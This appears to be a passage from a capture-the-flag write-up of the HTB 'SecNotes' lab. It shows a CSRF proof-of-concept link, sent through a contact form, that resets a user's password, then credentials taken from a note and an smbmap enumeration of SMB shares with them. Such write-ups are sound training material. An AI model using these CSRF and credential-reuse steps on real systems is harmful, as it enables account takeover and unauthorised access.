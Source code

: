 **Using CSRF to take over tyler's account using change_pass.php**

In order to create a CSRF payload we need to know all the parameters for the request we want to forge.
Capturing the request to change the password to my test account shows there are 3 parameters: `password=asdsad&confirm_password=asdasd&submit=submit`

```
POST /change_pass.php HTTP/1.1
Host: 10.10.10.97
User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 53
Origin: http://10.10.10.97
Connection: close
Referer: http://10.10.10.97/change_pass.php
Cookie: PHPSESSID=grafdstet4gnivi29gbglt9de0
Upgrade-Insecure-Requests: 1

password=asdsad&confirm_password=asdasd&submit=submit
```

Now we have the parameters, let's make the payload.
PoC: [http://10.10.10.97/change\_pass.php?password=hacked&confirm\_password=hacked&submit=submit](http://10.10.10.97/change_pass.php?password=hacked&confirm_password=hacked&submit=submit)
This is the link I'll send through the contact form. If Tyler or anybody else clicks it, their password will be changed to "hacked".
Submit the link through the contact form located at http://secnotes.htb/contact.php and wait for Tyler to click it.

I waited about 30 seconds and tried to login to Tyler's account using `tyler:hacked` and it worked.
We now have access to tyler's secure notes.

Opening the "new site" note reveals some credentials and what looks to be an smbshare.

```
\\secnotes.htb\new-site
tyler / 92g!mA8BGjOirkL%OG*&
```

**SMB/Port 445**

Using smbmap to check the privileges with tyler's account
note: using single quotes to wrap the password in allows us to bypass the exclamation mark which bash terminals interpret it as "Not" (like in boolean)

```
smbmap -H 10.10.10.97 -u tyler -p '92g!mA8BGjOirkL%OG*&'                2 ⨯
[+] IP: 10.10.10.97:445	Name: 10.10.10.97                                       
        Disk                                                  	Permissions	Comment
    ----                                                  	-----------	-------
    ADMIN$                                            	NO ACCESS	Remote Admin
    C$                                                	NO ACCESS	Default share
    IPC$                                              	READ ONLY	Remote IPC
    new-site                                          	READ, WRITE
```
